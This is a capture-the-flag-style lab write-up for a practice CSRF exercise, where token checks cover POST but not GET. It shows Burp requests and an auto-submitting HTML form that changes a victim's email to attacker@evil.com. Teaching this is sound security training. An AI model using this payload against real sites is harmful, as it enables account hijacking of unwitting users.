


# Lab: CSRF Where Token Validation Depends on Request Method

## Lab Description
This lab contains a Cross-Site Request Forgery (CSRF) vulnerability in the email change functionality of a web application. The application attempts to protect against CSRF attacks by validating a CSRF token, but only for certain request methods. Specifically, the CSRF token validation is enforced on POST requests but not on GET requests, allowing attackers to bypass CSRF protections by changing the request method.

---

## Objective

* Identify the CSRF protection mechanism in place.
* Exploit the vulnerability by crafting a CSRF attack that changes the victim’s email address.
* Use the knowledge that the CSRF token is not validated for GET requests to bypass protections.

---

## Environment Setup

* Target URL: `https://<lab-id>.web-security-academy.net/my-account/change-email`
* Credentials:  
  Username: `wiener`  
  Password: `peter`
* Tools used:
  * Burp Suite (Proxy, Repeater)
  * Browser (for exploit hosting and testing)

---

## Step-by-Step Exploit Walkthrough

### 1. Log In and Observe the Email Change Request

* Log in as user `wiener`.
* Intercept the request to change the email address using Burp Suite Proxy.
* Notice that the email change is done via a POST request with a CSRF token parameter:
```

POST /my-account/change-email
Content-Type: application/x-www-form-urlencoded

email=[wiener3@gmail.com](mailto:wiener3@gmail.com)\&csrf=valid-csrf-token

```


### 2. Test CSRF Token Enforcement

* Modify the CSRF token to an invalid value and send the POST request.
* Observe that the server rejects the request due to invalid CSRF token.
```



```
---

### 3. Change the Request Method to GET

* Use Burp Suite Repeater’s “Change request method” feature to change the request from POST to GET.
* Remove the CSRF token parameter.
* Send the GET request:
```

GET /my-account/change-email?email=[attacker@evil.com](mailto:attacker@evil.com)

````
* Observe that the server accepts the request and changes the email address without requiring a CSRF token.

---

### 4. Craft CSRF Exploit HTML

* Create an HTML page that automatically submits a GET request to change the email:
```html
<form action="https://<lab-id>.web-security-academy.net/my-account/change-email" method="GET">
  <input type="hidden" name="email" value="attacker@evil.com">
</form>
<script>
  document.forms[0].submit();
</script>
````

* Host this HTML on the exploit server provided by the lab.

---

### 5. Deliver the Exploit

* Visit the exploit URL to simulate the victim visiting a malicious site.
* The victim’s browser automatically submits the GET request with their authentication cookie.
* The victim’s email is changed to `attacker@evil.com`, bypassing CSRF protections.


---

## Payloads Used

| Description                  | Payload/Technique                               |
| ---------------------------- | ----------------------------------------------- |
| CSRF exploit with GET method | `<form action=".../change-email" method="GET">` |

---

## Lessons Learned

* CSRF token validation must be enforced on **all** state-changing HTTP methods, including GET.
* Relying on HTTP method to skip CSRF validation is insecure.
* Auto-submitting forms with GET can bypass token protections if not properly enforced.
* Proper CSRF defenses include consistent token validation and avoiding side-effects on GET requests.

---

## Conclusion

This lab demonstrates a subtle CSRF vulnerability where token validation depends on the HTTP request method. Attackers can exploit this by switching from POST to GET requests to bypass CSRF protections and perform unauthorized actions on behalf of the victim. Properly enforcing CSRF tokens on all methods and avoiding unsafe state changes on GET requests are critical for security.
